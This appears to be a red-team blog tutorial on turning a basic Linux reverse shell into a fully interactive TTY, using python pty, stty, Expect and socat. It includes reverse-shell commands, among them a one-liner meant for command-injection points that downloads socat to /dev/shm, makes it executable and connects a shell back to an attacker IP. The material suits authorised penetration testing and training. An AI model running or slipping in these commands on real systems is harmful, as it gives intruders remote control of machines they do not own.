 ```yaml
---
description: >-
  How to upgrade a linux reverse shell to a fully usable TTY shell
title: Upgrade a linux reverse shell to a fully usable TTY shell                    # Add title of the machine here
date: 2021-04-29 08:00:00 -0600                           # Change the date to match completion date
categories: [Tips & Tricks]                     # Categories
tags: [hacking, redteam, tips-n-tricks, socat, expect, python, linux, macos]     # TAG names should always be lowercase; add relevant tags
show_image_post: true                                    # Change this to true
#image: /assets/img/                # Add image here for post preview image
---
```


![Hack responsibly disclaimer](/assets/markups/1-hack-responsibly.svg)

## Upgrading remote shells (Unix machines only)

Usually, after catching a shell through netcat you are placed in a shell that has very limited functionality. The features I miss the most are command history (and using the 'up' and 'down' arrows to cycle through them) and tab autocompletion.  It can feel quite disorienting working in a shell that is missing these vital features.  

 **Note:** To check if the shell is a TTY shell use the `tty` command.

 ## rlwrap
 
You can also mitigate some of the restrictions of poor netcat shells by wrapping the netcat listener with the `rlwrap` command.  This is not installed by default so you will need to install it using `sudo apt rlwrap`.

```bash
rlwrap nc -lvnp $port
```

If the remote machine has Python installed you can easily upgrade to a fully functional TTY shell.

## Upgrade to fully interactive shell using Python:

1. First, after recieving your reverse shell you need to check the availability of Python. You can do this with the `which` command.

```bash
which python python2 python3
```

If any of these are installed this command will return the full path of the installed binary.  

Note: The `which` command will only report programs that are installed in a folder that exists in `$PATH`.  Python will almost always be in a `$PATH` directory so this should not be an issue.

2. Next, on the victim machine type the below command (using the version of python that is available on the machine!)

```bash
python -c 'import pty;pty.spawn("/bin/bash")'; #spawn a python psuedo-shell
```

Your command prompt may or may not change to reflect the new shell.  If it does not change, do not panic as this is configured locally and will depend on setting on the machine you are on.

3. Next, type `ctrl-z` to send your shell to the background.

4. On your attack platform, you will need to set up your shell to send control charcters and other raw input through the reverse shell.  You can do this by using the `stty` command as below.

```bash
stty raw -echo
stty size 
```

The second command above will report the size of your terminal window in rows and columns.  This is useful for command output that either fills the whole terminal (such as when using programs such as `nano` or `vim`) or that would output lines that are too long to fit in the window.  Fixing the window size will allow for word-wrapping instead of cutting off output that is too long.

5. After that, type the command `fg` to return the reverse shell to the foreground.

6. Next, on the victim machine type the below commands to set some important environment variables.

```bash
export SHELL=bash
stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```

Viola!  You should now be the proud owner of a shiny new fully upgraded TTY shell with command history using the 'up' and 'down' arrows.  This shell will also allow you to use the command `clear` to clear your screen and 'control' commands, such as `ctrl-c` to kill remotely running processes rather than your own shell! Enjoy!

### Upgrading a shell when using zsh (for example in Kali linux) 

When using some shells such as `zsh` or `fish` on the attacking machine your shell will break after you try to upgrade it using the above methods.  Some of the things I have found that help mitigate this are:

1. Use `rlwrap nc -lvnp` when setting up your listener,
2. make sure not to put a space in your python pty command after the import,
3. type `stty size;stty raw -echo;fg` all on one line.

Finally, as a last resort, you could just switch to `bash` instead when setting up your `nc` listener.

## Using Other Scripting Languages:

Below are some examples of other scripting languages that can be used to achieve the same upgraded shell as the second step above.  Afterwards follow along from step 3.

```python
echo os.system('/bin/bash')
/bin/sh -i

#python3
python3 -c 'import pty; pty.spawn("/bin/sh")'

#perl
perl -e 'exec "/bin/sh";'

#ruby
exec "/bin/sh"
ruby -e 'exec "/bin/sh"'

#lua
lua -e "os.execute('/bin/sh')"
```

## Using “Expect” To Get A TTY

If you’re lucky enough to have the [Expect](http://en.wikipedia.org/wiki/Expect) language installed just a few lines of code will get you a good enough TTY to run useful tools such as “ssh”, “su” and “login”.

Create a script called `sh.exp`

```bash
#!/usr/bin/expect
# Spawn a shell, then allow the user to interact with it.
# The new shell will have a good enough TTY to run tools like ssh, su and login
spawn sh
interact
```

Then, execute this script on the victim machine.  For added sneakiness, run the script [from memory](https://zweilosec.github.io/posts/execute-in-memory/).

## Using socat

Another option is to upload the binary for `socat` to the victim machine and magically get a fully interactive shell. Download the appropriate binaries from [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries). Socat needs to be on both machines for this to work.

```bash
#Create Listener on attack platform:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#From Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```

## socat one-liner

This one-liner can be injected wherever you can get command injection for an instant fully interactive reverse shell. Point the path to the binary to your local http server if internet access is limited on the victim.

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod +x /dev/shm/socat; /dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```

### Disclaimer

Note: The methods above will not work in every situation.  For example, I have regularly run into a problem on my Kali machine where attempting to use `stty raw -echo` while using `zsh` as my shell will cause the entire terminal to become unusable.  I have gotten around this issue by switching to `bash` before I start any netcat listener that I will be using to catch a shell.

## Other Examples

If you have any other examples of methods of upgrading reverse shells, or have any other fun or useful tips or tricks, feel free to contact me on Github at [https://github.com/zweilosec](https://github.com/zweilosec) or in the comments below!

If you like this content and would like to see more, please consider buying me a coffee! <a href="https://www.buymeacoffee.com/zweilosec"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a coffee&emoji=&slug=zweilosec&button_colour=FFDD00&font_colour=000000&font_family=Lato&outline_colour=000000&coffee_colour=ffffff"></a>

